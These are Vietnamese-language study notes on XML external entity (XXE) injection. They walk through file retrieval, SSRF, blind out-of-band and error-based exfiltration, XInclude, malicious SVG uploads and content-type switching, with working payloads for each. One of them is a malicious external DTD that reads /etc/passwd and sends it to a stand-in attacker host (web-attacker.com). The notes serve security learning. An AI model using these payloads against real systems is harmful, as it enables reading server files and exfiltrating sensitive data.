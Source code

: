 # Overview  
XML external entity injection là lỗ hổng cho phép kẻ tấn công có thể can thiệp vào việc xử lý dữ liệu
XML của ứng dụng. Nó thường cho phép kẻ tấn công có thể xem các tệp trên server và tương tác với các hệ
thống khác mà server có thể tương tác được  

# Phân loại  
1. XXE to retrieve files: đọc nội dung của file và trả về trên response của ứng dụng  
2. XXE perform SSRF: redirect đến một URL bên ngoài server  
3. Blind XXE exfiltrate data out-of-band: sensitive data được gửi từ server đến một máy chủ khác do kẻ
tấn công quản lý  
4. Blind XXE to retrieve data via error message: trigger các thông báo lỗi kèm theo sensitive data  

## XXE ti retrieve files  
Để thực hiện cần phải chỉnh sửa data XML gửi lên server theo 1 trong 2 cách:
1. tạo hoặc sửa `DOCTYPE` element, cái mà định nghĩa một external entity bao gồm đường dẫn file  
2. Sửa giá trị XML được trả về trong response, đùng chúng để xác định các external entity  
**VD**  
```  
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>  
<stockCheck><productId>&xxe;</productId></stockCheck>   
```  

## XXE to perform SSRF attacks  
Để thực hiện, cần phải định nghĩa một external XML entity sử dụng URL mà mình nhắm làm mục tiêu, và sử
dụng nó với một giá trị data. Khi có thể sử dụng với một giá trị data thì nó sẽ trả về theo response của
ứng dụng, và mình có thể thấy data từ URL hiện thị trên ứng dụng. Nghĩa là bạn phải xác định một URL có trả
về để có được sự tương tác 2 chiều với backend, nếu không thì chỉ có thể thực hiện blind SSRF attacks  
**VD**  
`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>`  
**lưu ý** có thể khi gọi tới URL sẽ không trả về data mà trả về các folder, tiếp tục follow theo folder
đến khi gặp thông tin cần thiết   
  
## Blind XXE vulnerabilities  
Đây là dạng server sẽ không trả về dữ liệu của các external entity trong response. Có 2 cách để khai thác lô
hổng này.
1. Trigger out-of-band network interaction, đôi khi dữ liệu nhạy cảm sẽ có trong dữ liệu interaction  
2. Trigger XML parsing error, giống như cách trích xuất sensitive data thông qua error message  

### Detect blind XXE using out-of-band  
Phương pháp tương tự như XXE SSRF attack nhưng trigger ra mạng bên ngoài tới hệ thống mà bạn quản lý
. Ví dụ, có thể định nghĩa một external entity  
`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>`  

Sau đó sử dụng entity này trong một data value XML. XXE attack sẽ khởi tạo một HTTP request ở backend
request tới server mà attacker điều khiển. Attacker dựa vào việc monitor DNS lookup và HTTP request để
xác định XXE thành công  
Đôi khi, các entỉty thông thường bị chặn do bộ lọc của ứng dụng. Trong trường hợp này có thể sử dụng 
XML parameter để thay thế. XML parameter là một dạng đặc biệt của XML entity cái mà chỉ có thể tham chiếu
đến nơi khác với DTD. Để làm được việc này, cần phải thực hiện 2 việc:  
1. Khai báo 1 XML parameter entity bao gồm dấu `%` trước entity name  
`<!ENTITY % myparameterentity "my parameter entity value" >`  
2. parameter entity được tham chiếu sử dụng dấu `%` thay cho dấu `&` như thông thường  
`%myparameterentity;`  
Do đó có thể test blind XXE out-of-band thông qua XML parameter entity `<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`  
Payload này định nghĩa một XML parameter entity `xxe` và sử dụng entity trong DTD  
`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://abc.com"> %xxe;]>`  
  
### Blind XXE to exfiltrate data out-of-band  
Lỗ hổng này liên quan đến việc attacker lưu trữ một DTD độc hại tại server của mình, sau đó gọi external 
DTD từ in-band XXE payload. VĐ của môt DTD độc hại:    
``` 
<!ENTITY % file SYSTEM "file:///etc/passwd">  
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">  
%eval;  
%exfiltrate;  
```
Các bước thực hiện DTD:
1. Định nghĩa XML parameter entity gọi là `file` lưu nội dung file `/etc/passwd`  
2. Định nghĩa XML parameter entity gọi là `eval` lưu trữ 1 định nghĩa động của một XML parameter khác
gọi là `exfiltrate`. Entity `exfiltrate` thực hiện HTTP request tới entity `file` chứa nội dung của tệp  
3. Sử dụng entity `eval` sẽ khiến khai báo động entity `exfiltrate` được thực hiện  
4. Sử dụng entity `exfiltrate` để gửi request tới URL được chỉ định  
  
Attacker cần lưu file DTD trên host của mình sau đó load vào web bị target. VD XXE payload trên target:  
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM  
"http://web-attacker.com/malicious.dtd"> %xxe;]>  
```
 XXE payload định nghĩa một XML parameter gọi là `xxe` và sử dụng entity với DTD. Điều này sẽ làm cho trình 
 phân tích XML load external DTD từ server attacker và interpret nó. Các bước tiếp theo tùy thuộc vào nội dung file DTD. 
  Sau cùng dữ liệu sẽ được gửi về server attacker  
  
### Blind XXE to retrieve data via error messages  
Hướng tấn công này lợi dụng việc server gửi trả thông báo lỗi để lấy sensitive data. Về cách thức nó tương tự như trên. VD external DTD
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error; 
```  
## Các loại khác   

### XInclude attack  
Một số ứng dụng nhận dữ liệu từ người dùng, tại server sẽ chèn vào file XML rồi mới tiến hành phân tích. Một ví dụ là khi user
gửi dữ liệu lên máy chủ backend SOAP, cái được xử lý bởi backend SOAP service  
Trong trường hợp này, bạn sẽ không thể thực hiện một cuộc tấn công XXE bình thường, bởi vì mình không thể điều khiển được đầu
vào XML, nên không thể thay đổi, định nghĩa một `DOCTYPE` element. Tuy nhiên, ta có thể sử dụng `XInclude`, `XInclude` là một
phần của XML, cái cho phép XML được build từ một sub-documents. Có thể thực hiện `XInclude` với bất kì giá trị dữ liệu nào của
XML  
Để thực hiện `XInclude` attack, bạn cần tham chiếu một `XInclude` namspace và cung cấp đường dẫn file mà bạn cần  
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo> 
```  
VD chèn `XInclude` vào biến `productID` trong post request  
`productId=<foo+xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include+parse="text"+href="file:///etc/passwd"/></foo>&storeId=1`  

### XXE attack via file upload  
Có những trang web cho user upload file và xử lý tại server-side. Một vài file format sử dụng XML chính hoặc trong các component
Tệp office `DOCX` và image SVG là một trong những file XML-based format  
Ứng dụng cho phép tải ảnh, xử lý và validate dữ liẹu tại server. Nếu ứng dụng chấp nhận format PNG, JPEG, thư viện xử lý ảnh 
có thể hỗ trợ SVG. Chính vì hỗ trợ SVG, attacker có thể gửi file SVG độc hại để thực hiện một XXE attack  
```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="240px" height="240px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="23" x="0" y="16">&xxe;</text>
</svg>
```  
Một ví dụ về payload SVG, ta tạo 1 file SVG với nội dung như trên. Chúng ta chú ý đến  attribute `<text font-size="23" x="0" y="16">&xxe;</text>`.
Attribute này rất quan trọng, nó quyết định font chữ khi ta lấy dữ liệu ra và ghi vào file svg. `font-size` xác định độ lớn cỡ chữ, 2
attribute `x, y` xác định vị trí của text sẽ in trên ảnh. Khi upload thành công, ta sẽ thấy nội dung của file được ghi vào hình ảnh  
  
### XXE attacks via modified content type  
Thông thường các Post request sẽ sử dụng nội dung từ form HTML như là `application/x-www-form-urlencoded`
Với một post request thông thường:  
```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar 
```  
Ta có thể submit dưới dạng xml:  
```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```  
Nếu ứng dụng chấp nhận định dang XML thì ta chỉ cần chuyển request sang dạng XML và thực hiện tấn công như bình thường.  



